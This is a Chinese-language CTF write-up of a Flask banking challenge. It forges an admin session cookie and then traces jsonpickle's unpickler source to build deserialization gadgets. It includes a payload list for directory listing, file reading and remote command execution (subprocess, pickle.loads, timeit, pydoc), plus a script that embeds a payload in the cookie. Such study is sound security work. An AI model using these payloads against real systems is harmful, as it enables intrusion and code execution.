## 前言

至于为什么要写这篇文章呢？因为我认为这算是一个很高质量的题目，况且对于我对python并不熟悉来说，我们需要深入源码去分析才能做到更好的理解，所以打算单开一篇文章写这个题的思路和过程

## 原来不是flag？

```
欢迎来到全世界最安全的银行系统！我们采用了最先进的安保系统来保护您的账户。但最近有传言说，即使是最安全的系统也可能存在漏洞。你能绕过我们的安全措施，进入金库获取宝藏吗？
```

打开题目是一个登录口，在/about下有提示



从这里可以得出几个信息，这里的话是python的flask框架开发的web应用，然后是用json进行数据传输的，在会话管理方面是用的jsonpickle去进行传输token的。

话不多说，我们先注册个账号进去看一下

admin用户存在？我们换个1111/111111注册一下（要求用户名大于4位，密码大于6位）



提示需要管理员权限才能访问，那么就需要伪造admin身份了，直接看cookie的结构

```python
authz=eyJweS9vYmplY3QiOiAiX19tYWluX18uU2Vzc2lvbiIsICJtZXRhIjogeyJ1c2VyIjogIjExMTEiLCAidHMiOiAxNzUzODU4ODMyfX0=
```

之前提示是base64编码的，拿去解码一下



明了了，user就是我们刚刚注册的用户名，我们改成admin试一下，一开始以为需要注意后面的时间戳的，但是好像貌似不需要？



拿到管理员身份了，但是保险库中是一个假的flag。。。好吧，挖了个坑

## 深究源码

因为是提示了jsonpickle，所以去先知社区翻了一下文章

[从源码看JsonPickle反序列化利用与绕WAF](https://xz.aliyun.com/news/16133)

从里面可以看到jsonpickle的反序列化恢复对象其实是基于本身定义的一些标签去进行的。话不多说，直接拖一个源码下来分析一下

https://github.com/jsonpickle/jsonpickle

`jsonpickle/tags.py`文件下有反序列化支持的标签，标签对应的处理函数见`jsonpickle/unpickler.py`。

```python
#tags.py
"""The jsonpickle.tags module provides the custom tags
used for pickling and unpickling Python objects.

These tags are keys into the flattened dictionaries
created by the Pickler class.  The Unpickler uses
these custom key names to identify dictionaries
that need to be specially handled.
"""

BYTES: str = 'py/bytes'
B64: str = 'py/b64'
B85: str = 'py/b85'
FUNCTION: str = 'py/function'
ID: str = 'py/id'
INITARGS: str = 'py/initargs'
ITERATOR: str = 'py/iterator'
JSON_KEY: str = 'json://'
MODULE: str = 'py/mod'
NEWARGS: str = 'py/newargs'
NEWARGSEX: str = 'py/newargsex'
NEWOBJ: str = 'py/newobj'
OBJECT: str = 'py/object'
PROPERTY: str = 'py/property'
REDUCE: str = 'py/reduce'
REF: str = 'py/ref'
REPR: str = 'py/repr'
SEQ: str = 'py/seq'
SET: str = 'py/set'
STATE: str = 'py/state'
TUPLE: str = 'py/tuple'
TYPE: str = 'py/type'

# All reserved tag names
RESERVED: set = {
    BYTES,
    FUNCTION,
    ID,
    INITARGS,
    ITERATOR,
    MODULE,
    NEWARGS,
    NEWARGSEX,
    NEWOBJ,
    OBJECT,
    PROPERTY,
    REDUCE,
    REF,
    REPR,
    SEQ,
    SET,
    STATE,
    TUPLE,
    TYPE,
}
```

反序列化的流程，先看decode函数

```python
def decode(
    string: str,
    backend: Optional[JSONBackend] = None,
    # we get a lot of errors when typing with TypeVar
    context: Optional["Unpickler"] = None,
    keys: bool = False,
    reset: bool = True,
    safe: bool = True,
    classes: Optional[ClassesType] = None,
    v1_decode: bool = False,
    on_missing: MissingHandler = 'ignore',
    handle_readonly: bool = False,
) -> Any:
    if isinstance(on_missing, str):
        on_missing = on_missing.lower()
    elif not util._is_function(on_missing):
        warnings.warn(
            "Unpickler.on_missing must be a string or a function! It will be ignored!"
        )

    backend = backend or json
    context = context or Unpickler(
        keys=keys,
        backend=backend,
        safe=safe,
        v1_decode=v1_decode,
        on_missing=on_missing,
        handle_readonly=handle_readonly,
    )
    data = backend.decode(string)
    return context.restore(data, reset=reset, classes=classes)
```

解释一下几个重要参数：

- string: 要解码的 JSON 字符串。

- keys: 如果设置为True，则jsonpickle将解码非字符串类型的字典键
- backend: 指定一个解码后端（`JSONBackend`）。如果未提供，默认为 `json`
- safe:一个非常重要的安全开关。如果为 False，它会使用 eval() 来恢复某些旧格式的对象，这存在安全风险，可能被用来执行恶意代码。**默认为 True，即安全模式**。

```python
data = backend.decode(string)
```

这里的话利用backend的decode方法先将传入的字符串进行解码

```python
return context.restore(data, reset=reset, classes=classes)
```

调用context的restore方法去将解码后的数据恢复成python对象。然后我们继续根据restore



继续跟进_restore



如果 `obj` 是字符串、列表、字典、集合或元组中的一种，程序会调用 `self._restore_tags(obj)`，继续跟进

```python
    def _restore_tags(
        self, obj: Any, _passthrough: Callable[[Any], Any] = _passthrough
    ) -> Callable[[Any], Any]:
        """Return the restoration function for the specified object"""
        try:
            if not tags.RESERVED <= set(obj) and type(obj) not in (list, dict):
                return _passthrough
        except TypeError:
            pass
        if type(obj) is dict:
            if tags.TUPLE in obj:
                restore = self._restore_tuple
            elif tags.SET in obj:
                restore = self._restore_set  # type: ignore[assignment]
            elif tags.B64 in obj:
                restore = self._restore_base64  # type: ignore[assignment]
            elif tags.B85 in obj:
                restore = self._restore_base85  # type: ignore[assignment]
            elif tags.ID in obj:
                restore = self._restore_id
            elif tags.ITERATOR in obj:
                restore = self._restore_iterator  # type: ignore[assignment]
            elif tags.OBJECT in obj:
                restore = self._restore_object
            elif tags.TYPE in obj:
                restore = self._restore_type
            elif tags.REDUCE in obj:
                restore = self._restore_reduce
            elif tags.FUNCTION in obj:
                restore = self._restore_function
            elif tags.MODULE in obj:
                restore = self._restore_module
            elif tags.REPR in obj:
                if self.safe:
                    restore = self._restore_repr_safe
                else:
                    restore = self._restore_repr
            else:
                restore = self._restore_dict  # type: ignore[assignment]
        elif type(obj) is list:
            restore = self._restore_list  # type: ignore[assignment]
        else:
            restore = _passthrough  # type: ignore[assignment]
        return restore
```

这里的话就是重要逻辑了， 根据标签去恢复对象，可以看到当对象为字典的时候逻辑还是蛮多的。我们找几个有意思的看一下

### py/object

先看看处理逻辑

```python
    def _restore_object(self, obj: Dict[str, Any]) -> Any:
        class_name = obj[tags.OBJECT]
        cls = loadclass(class_name, classes=self._classes)
        handler = handlers.get(cls, handlers.get(class_name))  # type: ignore[arg-type]
        if handler is not None:  # custom handler
            proxy = _Proxy()
            self._mkref(proxy)
            instance = handler(self).restore(obj)
            proxy.reset(instance)
            self._swapref(proxy, instance)
            return instance

        if cls is None:
            self._process_missing(class_name)
            return self._mkref(obj)

        return self._restore_object_instance(obj, cls, class_name)  # type: ignore[arg-type]
```

先是从处理对象中提取出py/object键的值作为class_name类名，我们跟进看一下这个loadclass方法

```python
def loadclass(
    module_and_name: str, classes: Optional[Dict[str, Type[Any]]] = None
) -> Optional[Union[Type[Any], ModuleType]]:
    """Loads the module and returns the class.

    >>> cls = loadclass('datetime.datetime')
    >>> cls.__name__
    'datetime'

    >>> loadclass('does.not.exist')

    >>> loadclass('builtins.int')()
    0

    """
    # Check if the class exists in a caller-provided scope
    if classes:
        try:
            return classes[module_and_name]
        except KeyError:
            # maybe they didn't provide a fully qualified path
            try:
                return classes[module_and_name.rsplit('.', 1)[-1]]
            except KeyError:
                pass
    # Otherwise, load classes from globally-accessible imports
    names = module_and_name.split('.')
    # First assume that everything up to the last dot is the module name,
    # then try other splits to handle classes that are defined within
    # classes
    for up_to in range(len(names) - 1, 0, -1):
        module = util.untranslate_module_name('.'.join(names[:up_to]))
        try:
            __import__(module)
            obj = sys.modules[module]
            for class_name in names[up_to:]:
                obj = getattr(obj, class_name)
            return obj
        except (AttributeError, ImportError, ValueError):
            continue
    # NoneType is a special case and can not be imported/created
    if module_and_name == "builtins.NoneType":
        return type(None)
    return None
```

其实就是一个加载指定模块中类的一个方法，先是检查classes字典是否存在，存在则把里面的str键对应的值返回，如果没找到的话就会分离出最后一部分类名并再次查找。例如，`'datetime.datetime'` 会先查找 `'datetime.datetime'`，如果找不到，再尝试查找 `'datetime'`。如果两者都没有找到，则跳过这部分逻辑。

如果classes字典并不存在的话，就会通过从系统中动态加载模块去获取类，这里的话就没必要说了

其实这里的话就是一个获取模块中类的过程，跟进一下return中的函数

重点看几个逻辑

```python
if has_tag(obj, tags.NEWARGSEX):
            args, kwargs = obj[tags.NEWARGSEX]
        else:
            args = getargs(obj, classes=self._classes)
            kwargs = {}
        if args:
            args = self._restore(args)
        if kwargs:
            kwargs = self._restore(kwargs)
```

如果obj字典中包含tags.NEWARGSEX标签，就会从该标签中获取`args` 和 `kwargs`，这两个变量分别表示的是位置参数和关键字参数

如果没有这个标签的话会调用getargs方法去获取参数，并设置关键字参数为空

如果这两个变量存在，就会调用_restore去反序列化，恢复它们的原始数据结构。

```python
        try:
            if not is_oldstyle and hasattr(cls, '__new__'):
                # new style classes
                if factory:
                    instance = cls.__new__(cls, factory, *args, **kwargs)
                    instance.default_factory = factory
                else:
                    instance = cls.__new__(cls, *args, **kwargs)
            else:
                instance = object.__new__(cls)
        except TypeError:  # old-style classes
            is_oldstyle = True
```

如果是新式类且该类定义了 `__new__` 方法，使用 `cls.__new__` 来实例化对象。如果有工厂方法，则将工厂方法作为参数传递给 `__new__`。

如果不是新式类的话就自动实例一个空对象

```python
        if is_oldstyle:
            try:
                instance = cls(*args)
            except TypeError:  # fail gracefully
                try:
                    instance = make_blank_classic(cls)
                except Exception:  # fail gracefully
                    self._process_missing(class_name)
                    return self._mkref(obj)
```

如果是旧式类，就直接利用`cls(*args)`调用构造函数，并且这里会触发`__init__`方法

这里的话还会恢复实例中的变量，也就是从obj中提取数据并赋值给实例的各个属性变量

最终返回恢复出来的实例。

我们写个demo测试一下

```python
import jsonpickle
import json

payload = {
    "py/object" : "glob.glob",
    "py/newargs" : ["/"]
}
data = json.dumps(payload)
raw = jsonpickle.decode(data)

```



在`_restore_object`中打断点进入



可以看到在执行了loadclass之后成功找到glob方法并赋值给cls，步入return语句，这里的话会先判断是否有newargsex标签，我们这里没用上，所以到else中获取到arg的值，随后进入_restore方法



这里的话就是再次调用`_restore_tags`去获取args了，因为这里的话args是一个列表，所以会进入最后一个list的语句调用`_restore_list`



往后走，最终的话就是会调用`glob,glob("/*")`

不小心把代码写错了，应该是这样的

```python
import jsonpickle
import json
payload = {
    "py/object" : "glob.glob",
    "py/newargs" : ["/*"]
}
data = json.dumps(payload)
raw = jsonpickle.decode(data)
print(raw)

```

然后我们具体看一下那两个参数标签

### py/newargs和py/newargsex


py/newargsex反序列化处理逻辑



py/newargs反序列化处理逻辑



把刚刚的代码换成py/newargsex跑一下



出现了一个报错，其实就是因为我们传入的内容格式不正确导致的，由于`py/newargsex` 的值应该是一个包含两个元素的列表：`[args, kwargs]`，所以需要改成

```python
import jsonpickle
import json
payload = {
    "py/object" : "glob.glob",
    "py/newargsex" : [["/*"], {}]
}
data = json.dumps(payload)
raw = jsonpickle.decode(data)
print(raw)

```

### payload总结

- 读目录

```python
glob.glob函数
{"py/object" : "glob.glob", "py/newargs" : ["/*"]}
{"py/object" : "glob.glob", "py/newargsex" : [["/*"], {}]}
 
os.listdir函数
{"py/object" : "os.listdir","py/newargs" : ["/"]}
{"py/object" : "os.listdir","py/newargsex" : [["/"], {}]}
```

- 读文件

```python
linecache.getlines函数
{"py/object" : "subprocess.getoutput","py/newargs" : ["calc"]}
{"py/object" : "linecache.getlines","py/newargsex" : [["test.py"], {}]}
```

- RCE

```python
{"py/object" : "subprocess.run","py/newargs" : ["calc"]}

{"py/object" : "subprocess.getoutput","py/newargs" : ["calc"]}

{"py/object" : "pickle.loads", "py/newargs": [{"py/b64":"KGNvcwpzeXN0ZW0KUydiYXNoIC1jICJjYWxjIicKby4="}]}

{"py/object": "timeit.main", "py/newargs": [["-r", "1", "-n", "1", "__import__('os').system('calc')"]]}

{"py/object": 'uuid._get_command_stdout', 'py/newargs': ['calc']}

{'py/object': 'pydoc.pipepager', 'py/newargs': ['a', 'calc']}
```

然后我们可以试一下

## 初次尝试

在尝试之前，我们需要注意一个点，就是关于回显位的问题，我们如何将反序列化后的执行结果返回到页面中进行渲染？

先把之前的cookie拿过来看一下

```html
{"py/object": "__main__.Session", "meta": {"user": "1111", "ts": 1754290309}}
```

再结合/panel路由的页面



不难看出，user中的内容就是会回显到页面中，那我们不妨把poc翻到user的值中

```python
import base64
import json
import time
payload = {
    "py/object": "__main__.Session",
    "meta": {
        "user": {"py/object" : "glob.glob", "py/newargs" : ["/*"]},
        "ts": int(time.time()),
    }
}
json_payload = json.dumps(payload)
data = base64.b64encode(json_payload.encode('utf-8')).decode('utf-8')
print(data)

```

